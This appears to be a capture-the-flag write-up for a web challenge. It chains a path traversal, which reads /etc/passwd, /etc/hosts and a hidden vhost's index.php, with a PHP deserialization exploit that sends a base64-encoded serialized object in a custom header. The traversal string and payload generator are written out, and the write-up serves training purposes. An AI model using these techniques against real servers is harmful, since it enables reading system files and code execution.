

## Web 3 - Path Traversal over vHost
#### Description
Read one file and it will lead you to new clues. The challenge consists of 2 vHost, but you do not need to perform vHost Fuzzing (please avoid doing it).  
  
__Flag Format__ : WTCTT2023_WEB03{[a-z0-9]{32}}  
__URL__ : [http://web.wtctt2023.p7z.pw:8003/](http://web.wtctt2023.p7z.pw:8003/)  
__Hidden vHost URL Pattern__ : https://?????.chall3.wtctt2023.p7z.pw  
  
Hint 1: Directory Fuzzing is NOT required (no hidden files / web pages).  
Hint 2: Online password brute forcing (dictionary attack) is NOT required.  
Hint 3: The challenge is designed to be exploited manually without automated security scanners.
#### Solution

See in url bar. Yeah you can traversal to every file on system, Let's proof.


```less
../../../../../../../../../../../../etc/passwd
```


In description, it told you about flag in VHOST but you do not need to perform vHost Fuzzing. try to read /etc/hosts.


Go to http://adm1n.chall3.wtctt2023.p7z.pw:8003 


unknown host but don't worry it has another VHOST. try to enter http://chall3.wtctt2023.p7z.pw:8003


It is able to view. How can I access the adm1n page? 

it's so easy if chall3 and adm1n is point to same interface. you can use the same IP from chall3 to resolve adm1n, try to edit in your /etc/hosts. Remember that you must use nslookup to find out the IP address of chall3.




finally you can view it but it's blank. same solution use dev tools to inspect.


They have php code, but it is commented in the HTML. Let's switch to Path Traversal. The deploy web service by default places static code in /var/www/html; however, adm1n does not contain any code in that directory. /var/www/[vhosts]/ is the common path for vhosts, according to my research. try to traversal and read index.php


Yummy and same solution use dev tools.


cut some code that make me to get flag.

```php
<?php


function getHeaderValue($headerName) {
    // Convert the header name to the $_SERVER array format
    $serverKey = 'HTTP_' . strtoupper(str_replace('-', '_', $headerName));

    // Check if the header exists and return its value
    if (isset($_SERVER[$serverKey])) {
        return $_SERVER[$serverKey];
    } else {
        return null; // or any default value you wish to return
    }
}

class WTCTT2023 {
  function __destruct() {
    echo getenv('FLAG3');
  }
}

if(is_null(getHeaderValue("X-SECRET-X"))){
	echo '<?php echo highlight_file("index.php"); ?>';
}else{
	unserialize(base64_decode(getHeaderValue("X-SECRET-X")));	
}
?>
```

Yeah, we got php deserialization vulnerable. They have WTCTT2023 class that if we call it, we will get flag. just make serializtion value that call WTCTT2023 and remember you must encode with base64. 

```php
<?php
class WTCTT2023 {
  function __destruct() {
    echo getenv('FLAG3');
  }
}

$data = serialize(new WTCTT2023());
echo base64_encode($data);
?>
```

send payload with postman


Yummy, got FLAG3. XD!!!